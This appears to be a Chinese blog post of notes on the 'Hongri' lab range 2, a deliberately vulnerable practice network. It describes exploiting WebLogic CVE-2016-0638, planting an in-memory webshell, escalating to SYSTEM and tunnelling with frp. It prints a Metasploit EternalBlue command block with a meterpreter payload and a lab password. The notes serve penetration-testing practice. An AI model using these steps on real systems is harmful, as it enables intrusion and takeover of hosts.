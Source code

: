 ```yaml
---
title: 红日靶场二-学习笔记
date: 2023-06-24 21:11 +0800
categories: [SRC,渗透]
tags: [红日,渗透]
img_path: /assets/images/hongrier
---
```






https://pan.baidu.com/s/1DtOdje33JeoF8kcU6LBqSw?pwd=g5r4

![](WEBRESOURCEcac433cc9d9d4bddbcf1dc770267536b.png)

dc 区段1

pc 区段2 区段1

web nat 区段1



## 外网

![](WEBRESOURCEab16919d3ad044c3b1f3377abe7eef3c.png)



ms17010 是打不通的

![](WEBRESOURCE358953f4253349c9aeb086fd11ae2ffa.png)

有服务要手动起来，，，，

mssql 1qaz@WSX

登录启动 weblogic

![](WEBRESOURCE652d91cd4b6e46b5978bed38fee1670d.png)

疑似存在漏洞

![](WEBRESOURCEc2fb0a9031a2477683e9590c17f6ec10.png)

存在cve20160638

![](WEBRESOURCEfd9e7167662b4f27a4a8032159c0a6ec.png)

直接注入内存马

![](WEBRESOURCEebdb94b4e829406cbcca711a4b5ebead.png)



使用哥斯拉连接成功

![](WEBRESOURCE051aabdc15dd4165ae22e8bc2ed8ed84.png)

我们现在是低权

![](WEBRESOURCE313218577e034433909833ec526c0ea4.png)



靶机里面有360，但是cs直接生成的检测不出来。（搞了半天免杀还失败了【晕】

尝试提权，获取到了 system

![](WEBRESOURCE0f0e9e2ca292428793df11667920f9b2.png)

ipconfig /displaydns

查看dns缓存

pc icmp探测是不行的，dns才能探测到

![](WEBRESOURCE9da0abf566044da3af2aefe625131d6f.png)

上传运行 frp（过程略）

![](WEBRESOURCEedae8e64595647ee9ef8ec1ceae7ede4.png)

端口扫描 可以用插件或者

proxychains nmap -A -F -sT -Pn 10.10.10.10

![](WEBRESOURCE5ea6485890b04af0a0980b3880088993.png)



## 第二层上线cs

17010打进去用frp代理

```
set Proxies socks5:127.0.0.1:60000
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.10
set lport 4444
set AutoRunScript post/windows/manage/migrate
run
```

![](WEBRESOURCE311e72c64e7c4f0b8236de96b98c24f2.png)

现在跳板机上面监听端口，



![](WEBRESOURCEaa3c6064986d4247ad7066945431eff3.png)

配置一个端口就可以，

![](WEBRESOURCE72138e1fb4dc41d59c92e88137d3d275.png)

生成shell，监听跳板机监听的端口，cs会自动转发流量

![](WEBRESOURCEaa01799f717b4c398e19d2b535336349.png)

通过上面msf 获取的system，我们直接木马即可

![](WEBRESOURCE6e22de1f752f4f358eeecba4a5bcbbb0.png)

cs 会同步 上线

![](WEBRESOURCE173106f5c4e04729b918e98ae8aa75b4.png)



![](WEBRESOURCEa64157a3097b4d56ba9a61bf44412260.png)

